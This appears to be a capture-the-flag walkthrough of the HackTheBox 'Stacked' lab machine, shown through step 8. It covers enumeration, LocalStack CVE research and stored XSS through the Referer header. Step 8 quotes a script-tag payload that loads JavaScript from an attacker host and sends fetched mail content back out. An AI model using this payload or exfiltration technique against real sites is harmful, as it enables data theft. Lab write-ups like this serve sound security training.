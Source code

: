 ```yaml
---
title: "Stacked HTB - Insane Linux Box Walkthrough"
date: 2025-09-22T06:15:00Z
tags: ["insane-linux", "web", "xss", "localstack", "docker", "cve-2021-3200", "container-escape", "aws", "lambda", "privilege-escalation"]
difficulty: ["insane"]
categories: ["HTB", "Linux"]
draft: false
description: "Complete walkthrough of Stacked HTB machine featuring XSS exploitation, LocalStack CVE-2021-3200 command injection, Docker container privilege escalation, and container escape to host root"
---
```


# Stacked HTB - Insane Linux Box Walkthrough

{{< youtube aWXfEDIYZu8 >}}

## Exploitation Steps

1. **Initial Nmap Scan**: Perform an Nmap scan with default scripts and version enumeration on the target IP ([TARGET-IP]), revealing open ports 22 (SSH on Ubuntu) and 80 (HTTP on Apache/Ubuntu). The HTTP title indicates a redirect to stacked.htb.

2. **Hosts File Modification and Initial Browsing**: Add stacked.htb to the /etc/hosts file and browse http://stacked.htb, finding a static webpage with Bootstrap JavaScript and a non-functional "Notify Me" email form (identified as a rabbit hole).

3. **Directory and VHost Enumeration**: Run Gobuster for directory brute-forcing on stacked.htb (using raft-small-words.txt wordlist) and VHost enumeration (using subdomains-top1million-5000.txt). Also initiate a full port Nmap scan.

4. **VHost Discovery and Analysis**: Identify portfolio.stacked.htb from VHost scan results by analyzing anomalies in response sizes using awk, sort, and uniq. Add it to /etc/hosts and browse, revealing mentions of LocalStack (open-source AWS mock), a Docker Compose download link, and a contact form.

5. **Download and Analyze Docker Compose**: Download docker-compose.yml from portfolio.stacked.htb, noting LocalStack version 0.12.6, exposed ports (443, 4566, 4571, 8080 for web UI), Lambda usage, and no real authentication.

6. **Research LocalStack Vulnerabilities**: Search for LocalStack changelog (version 0.12.6 released February 2021) and CVEs, identifying CVE-2021-3200 (shell command injection in dashboard via function name parameter). Note ports 4566 and 8080 are not open in Nmap scans, suggesting indirect access.

7. **XSS Testing in Contact Form**: Intercept contact form submissions with Burp Suite, testing for XSS in fields like name, email, phone, subject, message, User-Agent, Referer, and Origin. Identify stored XSS in the Referer header by hosting a server and observing callbacks.

8. **Exploit XSS to Exfiltrate Data**: Craft a payload in Referer (e.g., `<script src="http://[ATTACKER-IP]/pwn.js"></script>`) to load custom JavaScript. Use pwn.js with XMLHttpRequest to fetch content from mail.stacked.htb (discovered via callback referrer) and exfiltrate it to attacker's server.

